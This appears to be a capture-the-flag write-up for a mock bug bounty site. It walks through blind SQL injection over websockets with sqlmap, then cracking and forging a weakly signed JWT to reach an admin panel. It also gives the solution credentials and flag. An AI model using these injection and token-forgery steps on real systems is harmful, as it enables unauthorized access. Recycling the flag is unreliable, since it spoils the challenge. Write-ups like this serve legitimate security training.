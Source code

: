 [![VIDEO](https://img.youtube.com/vi/kgndZOkgVxQ/0.jpg)](https://www.youtube.com/watch?v=VX445yn4lQ4 "Websocket SQLi and Weak JWT Signing Key")

### Description
>I started my own bug bounty platform! The UI is in the early stages but we've already got plenty of submissions. I wonder why I keep getting emails about a "critical" vulnerability report though, I don't see it anywhere on the system 😕

# Part 1: Websocket SQLi
- Players can use burp repeater to tamper with websocket requests, if they set the ID to 11, they will find an extra name `ethical_hacker`
- If they probe with quotes, they will see errors then quickly find SQLi
	- `{"id":"1 AND 1=1"}`
	- `{"id":"1 AND 1=2"}`
- Using this information, they will see need to dump the hidden row, either by filtering on `id`, `reported_by` or `severity`
- Players can write a script, but may find [this 2021 writeup from Rayhan](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html) to use SQLMap, but the script won't work by default:
	- They need to change the `ws` protocol to `wss` for remote
	- The DB is SQLite instead of MySQL, negative values in SQLMap will cause the script to freeze - players will need to add a timeout or logic to skip negative values
- Launch the middleware script (sqlmap_proxy.py)
- `sqlmap -u "http://localhost:9999/?id=1" --batch --proxy=http://127.0.0.1:8080 -T bug_reports -C description --where id=11 --dump --threads 10`
- The hidden bug report is returned, which indicates there's an admin endpoint with weak creds
```bash
+--------------------------------------+
| description                          |
+--------------------------------------+
| crypt0:c4tz on /4dm1n_z0n3, really?! |
+--------------------------------------+
```

# Part 2: Weak JWT Signing Key
- Players visit `/4dm1n_z0n3` and login with `crypt0:c4tz`
- They see a message saying the key is only viewable by the admin
- Crack the JWT with hashcat/john/jwt_tool etc, finding the key `catsarethebest` (present in rockyou.txt), e.g. jwt_tool takes like 3 secs
	- `jwt_tool eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZGVudGl0eSI6ImNhdCJ9.HJxAqYHm9TG8PBmMScRGsAPcK5vymC6AS4brUyfH7VA -C -d /usr/share/wordlists/rockyou.txt`
- Forge JWT as admin, e.g. with jwt_tool
	- `jwt_tool eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZGVudGl0eSI6ImNhdCJ9.HJxAqYHm9TG8PBmMScRGsAPcK5vymC6AS4brUyfH7VA -S hs256 -p "catsarethebest" -I -pc identity -pv admin`
- Login with the new cookie, revealing the config key which is the flag!
```txt
INTIGRITI{w3b50ck37_5ql1_4nd_w34k_jw7}
```